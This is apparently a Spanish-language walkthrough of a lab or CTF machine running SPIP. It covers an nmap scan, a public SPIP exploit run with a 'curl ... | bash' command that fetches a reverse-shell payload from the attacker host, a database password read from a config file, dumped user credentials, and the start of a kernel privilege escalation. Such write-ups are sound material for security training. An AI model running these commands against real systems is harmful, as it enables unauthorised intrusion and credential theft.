 Hacemos el escaneo con nmap:
![[Pasted image 20231026082921.png]]
Esto es lo que corre por el puerto 80:
![[Pasted image 20231026083005.png]]
Vemos en searchsploit si existen exploits con SPIP:
![[Pasted image 20231026083058.png]]
O también por exploitdb y nos bajamos este mismo:
```bash
https://www.exploit-db.com/exploits/51536
```
![[Pasted image 20231026083205.png]]
Por tanto lo que haremos será primero crear un servidor http con python con el payload de la reverse shell:
![[Pasted image 20231026083743.png]]
Lanzamos el exploit:
```python
python3 51536.py -u http://192.168.0.34/ -c "curl 192.168.0.32 | bash" -v
```
![[Pasted image 20231026083755.png]]
Y recibimos la conexión con netcat:
![[Pasted image 20231026083815.png]]
Y el contenido del fichero .bash_history nos da una pista de que igual podemos entrar a la base de datos, aunque aún nos falta la contraseña:
![[Pasted image 20231026084605.png]]
Y dentro del directorio config nos encontramos con un archivo llamado connect.php con la contraseña de root de la base de datos:
```sql
root:dbpassword
```
![[Pasted image 20231026084721.png]]
![[Pasted image 20231026084836.png]]
Usamos la base de datos spip y vemos una tabla llamada spip_auteurs:
![[Pasted image 20231026085019.png]]
Seleccionamos todo el contenido de la tabla spip_auteurs y vemos las credenciales del usuario angela:
![[Pasted image 20231026085114.png]]
```bash
angela:4ng3l4
```
Nos autenticamos y ya somos el usuario angela:
![[Pasted image 20231026090025.png]]
Y vemos que estamos ante esta versión de ubuntu:
![[Pasted image 20231026090059.png]]
Y si miramos en google tenemos este exploit:
![[Pasted image 20231026090640.png]]
Y buscamos por ese cve llegando a este repositorio de github:
![[Pasted image 20231026091110.png]]
Nos lo bajamos en la máquina víctima:
![[Pasted image 20231026091202.png]]
Ejecutamos un try y comienza una especie de contador:
![[Pasted image 20231026091355.png]]
